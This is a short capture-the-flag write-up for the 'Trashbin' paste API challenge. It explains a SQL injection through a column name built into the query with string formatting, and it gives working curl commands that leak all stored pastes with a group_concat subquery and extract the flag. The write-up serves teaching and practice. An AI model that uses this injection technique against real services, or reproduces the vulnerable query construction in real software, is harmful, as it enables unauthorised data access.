 # Trashbin

**`Author:`** [hfz](https://hfz1337.github.io)

## Description

GUI's are a lie, they're just front-ends to the shell.  
I made a simple API for non-GUI users to share their pastes.  
easy usage, much privacy... security?? iii have no idea.

## Write-up (brief)

A not so classic SQL injection that a lot of people missed (even SQLmap).  
The injection point is in the paste `attribute`, so it will look something like this:
```
curl -X GET http://chall.bsidesalgiers.com:8001/paste/{paste_id}/{payload}
```
Doing this black box might not be so obvious at first sight, let's take a look at the relevant part of the source code to understand what was going on:
```python
result = self.execute_query(
    "SELECT {} FROM pastes WHERE id=?".format(field), (paste_id,)
)
```
Now you're probably noticing how easy this is. Although the developer used prepared queries, he chose to make the column name dynamic, and construct the query using untrusted data.  
We can leak all the pastes using `group_concat`, then filter them out to get the flag.
```bash
# Create a new paste and get its ID (we need a valid paste, otherwise it would return: "no such paste"
paste_id=$(curl -sX POST -H "Content-type: application/json" -d '{"title": "test", "text": "test"}' http://chall.bsidesalgiers.com:8001/paste/new | jq .url | tr -d '"' | cut -d'/' -f3)
# Leak the flag
curl -sX GET "http://chall.bsidesalgiers.com:8001/paste/${paste_id}/(select%20group_concat(text)%20from%20pastes)" | grep -o 'shellmates{[^}]\+}'
```

Flag: `shellmates{2021_y3t_sQl_1nj3ct10ns_4r3_st1ll_4_pr0bl3m}`
